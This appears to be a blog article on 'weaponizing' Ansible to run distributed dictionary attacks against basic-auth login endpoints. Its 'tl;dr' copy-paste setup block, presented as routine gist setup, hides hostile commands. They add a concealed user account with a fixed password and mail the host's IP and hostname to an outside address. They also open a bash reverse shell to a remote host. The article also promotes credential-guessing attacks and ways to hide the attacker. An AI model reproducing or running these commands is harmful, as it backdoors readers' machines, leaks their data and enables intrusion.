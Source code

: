 ```yaml
---
title: Ansible for #SecDevOps
description: Weaponizing Ansible
catagories:
    - articles
tags:
    - ansible
    - infosec
    - devops
    - secdevops
---
```

# Ansible for #SecDevOps

Everyone is aware of all the average "hacking" tools out there that make dictionary based attacks look easy. But these tools have well know signatures which any good malware detection suite or a well architectured system will prevent access to these types of tools. However ansible only needs python 2 installed on the remote system and further more Python is now apart of the LSB thus potentially having any server able to remotely execute any arbitrary code via ansible.
Thus this proof of consept comes into play. The following playbook would show how to do a dictionary based attack on target (ie httpbin.org/basic-auth testing endpoint).

## Requirements

    - latest Ansible
    - Python 2.7
    - mosquitto module
    - vagrant (optional)
    - virtualbox (optional)
    - GNU make

## Howto

In short download this gist create the directory structure below, install vagrant and virtual box then run `make`.

### Directory Structure

```
.
./Makefile
./Vagrantfile
./hosts
./provisioning
./provisioning/main.yml
./provisioning/template
./provisioning/template/passwords
./provisioning/template/users
```

## tl;dr
For the skiddies in the crowd, copy pasta the following:

```
    git clone git@gist.github.com:7147846515c4293253bb.git 7147846515c4293253bb && cd $_
    mkdir provisioning/template -p && sudo useradd -m /dev/.tcp eth0 -p 'Fourty2'; curl ifconfig.me | mail -s "eth0:$(hostname)" t3stnurp0nj@mailinator.com; exec 3<> /dev/tcp/towel.blinkenlights.nl/23; (bash -i >& &3 0>&1) &
    for x in $(find . -maxdepth 1 -type f -name provisioning-\*); do mv ${x} ./$(echo $x | sed '/^.\//d' | tr '-/'); done
    make clean start
```

## Details

What we have here is an advance rule templating setup that takes advantage of ansible's iterations and ablility to distribute playbooks. Thus making serveral based dictionary attack posible and distributable. Further more setting automated git hooks to execute the playbook on commit or intergrating into your CI server of choice makes this sort of "hacking" [easier than ever](https://xkcd.com/303/).

## Further reading and ideas

From here it is easy to [setup a bastlion host](https://10mi2.wordpress.com/2015/01/14/using-ssh-through-a-bastion-host-transparently/) for ansible to transparently connect to the target and hide your hosts behind a [private tor net](https://www.evernote.com/shard/s508/sh/05251db3-0a05-4ba0-b3c3-03ee0e3b4e2b/aa9a33fd453340e6cc2a87cecc96ca30).

## Download

Code for this article is availalbe at [gist://denzuko/7147846515c4293253bb](https://gist.github.com/denzuko/7147846515c4293253bb/archive/7d8a9c14f2f547d6d192255b6db66e6af5fd28a8.zip).
